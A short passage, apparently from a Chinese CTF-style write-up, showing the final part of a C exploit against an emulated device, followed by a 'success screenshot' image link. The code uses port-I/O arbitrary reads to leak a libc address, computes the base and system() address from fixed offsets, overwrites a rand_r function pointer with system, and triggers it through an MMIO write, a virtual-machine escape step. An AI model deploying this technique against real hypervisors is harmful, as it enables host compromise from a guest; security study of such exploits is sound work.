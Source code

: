 ```
    // leaking libc address 
    uint64_t srandom_addr=pmio_arbread(0x108);
    srandom_addr=srandom_addr<<32;
    srandom_addr+=pmio_arbread(0x104);
    printf("leaking srandom addr: 0x%llx\n",srandom_addr);
    uint64_t libc_base= srandom_addr-0x3a8e0;
    uint64_t system_addr= libc_base+0x453a0;
    printf("libc base: 0x%llx\n",libc_base);
    printf("system addr: 0x%llx\n",system_addr);
    
    // overwrite rand_r pointer to system
    pmio_abwrite(0x114,system_addr&0xffffffff);

    mmio_write(0xc,0);

     
}
```


成功截图：

![](14.png)